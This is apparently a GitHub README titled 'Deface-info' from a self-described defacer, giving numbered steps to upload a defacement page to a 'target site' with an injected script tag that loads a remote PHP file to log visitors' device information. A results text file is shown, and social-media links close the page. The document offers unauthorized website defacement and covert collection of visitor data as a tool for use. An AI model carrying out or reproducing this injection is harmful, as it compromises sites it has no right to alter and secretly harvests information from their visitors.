 # Deface-info

Topic:-Deface Visitors Device Information

°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°
1:- Upload file your hosting site

2:-Open Your Deface file A editor Apps
            (Example script)
            
3:- <script src="example.com/H0rn3t.php"><script>

4:- save your deface file

5:- Upload Deface your Target site

Deface visitors device information see
               Example
https://www.example.com/H0rn3t.txt

<hr width=100%>

<h3 align="left">Connect with me:</h3>
<p align="left">
<a href="https://www.facebook.com/H0rn3t.Sp1d3rs"><img title="Facebook" src="https://img.shields.io/badge/Facebook-red?style=for-the-badge&logo=facebook"></a>
<a href="https://www.facebook.com/call.me.H0rn3t.Sp1d3rs"><img title="Messenger" src="https://img.shields.io/badge/Messenger-red?style=for-the-badge&logo=messenger"></a>

<hr>
<h3>How To Use</H3>

